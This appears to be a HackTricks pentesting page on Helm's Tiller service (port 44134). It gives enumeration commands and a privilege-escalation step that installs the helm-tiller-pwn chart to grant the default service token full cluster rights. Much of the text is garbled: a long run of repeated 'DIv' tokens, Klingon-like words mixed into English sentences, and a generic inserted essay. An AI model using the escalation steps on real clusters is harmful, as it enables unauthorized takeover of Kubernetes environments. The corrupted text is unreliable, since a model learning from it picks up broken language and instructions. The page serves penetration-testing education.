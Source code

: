 <details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


# Basic Information

Helm jup the **package manager** for Kubernetes. It allows to package YAML files and distribute them in public and private repositories. These packages are called **Helm Charts**. **Tiller** jup the **service** **running** by default in the port 44134 offering the service.

**Default port:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# QaD

**QaD** (QaD) **Enumeration**

**QaD** (QaD) **pIv** **pods** **je** **je** **services** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DIv** **DI
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
# Pentesting Tiller (Helm)

## Introduction

Tiller is the server-side component of Helm, a package manager for Kubernetes. It manages the deployment of charts, which are packages of pre-configured Kubernetes resources. Pentesting Tiller involves assessing the security of the Tiller server and its associated components.

## Tiller Server

The Tiller server runs within a Kubernetes cluster and listens on a specific port for incoming requests. It is responsible for managing the deployment of charts and handling client requests. Pentesters can target the Tiller server to identify vulnerabilities and potential attack vectors.

## Tiller Security Considerations

When pentesting Tiller, there are several security considerations to keep in mind:

1. **Authentication**: Tiller supports various authentication mechanisms, such as TLS certificates and bearer tokens. Pentesters should assess the strength of the authentication mechanisms in place and look for any misconfigurations or weaknesses.

2. **Authorization**: Tiller uses Role-Based Access Control (RBAC) to control access to resources. Pentesters should evaluate the RBAC policies and permissions to ensure that only authorized users have access to sensitive operations.

3. **Network Security**: The network configuration of the Tiller server should be reviewed to identify any potential security weaknesses. This includes checking for open ports, firewall rules, and network segmentation.

4. **Default Configurations**: Tiller may have default configurations that could introduce security risks. Pentesters should review the default settings and ensure that they are properly configured to minimize the attack surface.

5. **Logging and Monitoring**: Tiller should have proper logging and monitoring in place to detect and respond to any suspicious activities. Pentesters should review the logging configuration and assess the effectiveness of the monitoring tools.

## Tiller Attack Vectors

During a Tiller pentest, the following attack vectors can be explored:

1. **Unauthorized Access**: Pentesters can attempt to gain unauthorized access to the Tiller server by exploiting weak authentication mechanisms or misconfigurations.

2. **Privilege Escalation**: Once access is gained, pentesters can attempt to escalate their privileges within the Tiller server or the underlying Kubernetes cluster.

3. **Chart Manipulation**: Pentesters can manipulate the charts deployed by Tiller to introduce malicious code or configuration changes.

4. **Denial of Service**: Pentesters can attempt to overload the Tiller server or disrupt its functionality to cause a denial of service.

## Conclusion

Pentesting Tiller is an essential step in securing a Kubernetes cluster that uses Helm for package management. By identifying and addressing vulnerabilities in Tiller, organizations can ensure the overall security of their Kubernetes deployments.
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
vaj yInIDqa' 'ej port 44134 laH Dapmey vItlhutlh.
```bash
sudo nmap -sS -p 44134 <IP>
```
**ghItlhvam** vItlhutlh. **Helm** **client** **application** **ghItlhvam** **download** **'e'**. **'ej** **tools** **ghItlhvam** **homebrew** **vaj** **'ej** [**'ej** **official releases page**](https://github.com/helm/helm/releases)**.** **vItlhutlh** **vaj** **'ej** **'ej** **options** **'e'** **'ej** [**installation guide**](https://v2.helm.sh/docs/using\_helm/#installing-helm) **vItlhutlh**.

**'ej**, **service** **'ej** **enumerate** **vItlhutlh**.
```
helm --host tiller-deploy.kube-system:44134 version
```
## qo'wI'wI' qIb

**Helm2** jatlh **kube-system** **namespace** vItlhutlh **high privileges** vItlhutlh. vaj vay' service 'ej vay' 'e' vItlhutlh, vaj vay' **qo'wI'wI' qIb** vItlhutlh.

vaj Hoch 'ej Hoch package vItlhutlh: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) 'ej **default service token access to everything in the whole cluster** vItlhutlh.
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
[http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) **attack** **explanation** **is available**. **clusterrole.yaml** and **clusterrolebinding.yaml** files in _helm-tiller-pwn/pwnchart/templates/_ **grant all privileges to the default token**.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>Learn AWS hacking from zero to hero with</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
